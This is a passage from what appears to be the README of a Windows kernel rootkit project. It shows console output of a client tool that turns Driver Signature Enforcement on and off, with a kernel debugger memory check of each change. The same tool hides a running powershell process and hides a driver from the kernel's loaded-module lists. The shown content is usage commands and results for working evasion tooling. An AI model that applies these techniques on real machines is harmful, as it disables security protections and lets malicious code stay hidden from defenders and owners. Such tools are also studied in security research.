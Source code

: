 ```
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

PS C:\Users\memn0ps\Desktop>
```



## Enable / Disable Driver Signature Enforcement (DSE)

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --enable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) enabled: 0x6
```
```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  06 
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --disable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) disabled: 0xe
```

```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  0e
```

## Hide Process

![CMD](./cmd_hide1.png)


```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --hide
[+] Process is hidden successfully: 6376
```

![CMD](./cmd_hide2.png)


## Hide Driver

Hidden from ZwQuerySystemInformation and PsLoadedModuleList

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver --enumerate
Total Number of Modules: 185
[0] 0xfffff80058c00000 "ntoskrnl.exe"
[1] 0xfffff80054d20000 "hal.dll"
<..OMITTED..>
[180] 0xfffff80054600000 "KERNEL32.dll"
[181] 0xfffff80054200000 "ntdll.dll"
[182] 0xfffff800553f0000 "KERNELBASE.dll"
[183] 0xfffff800556f0000 "MpKslDrv.sys"
[184] 0xfffff80055720000 "Eagle.sys"
[+] Loaded modules enumerated successfully
```
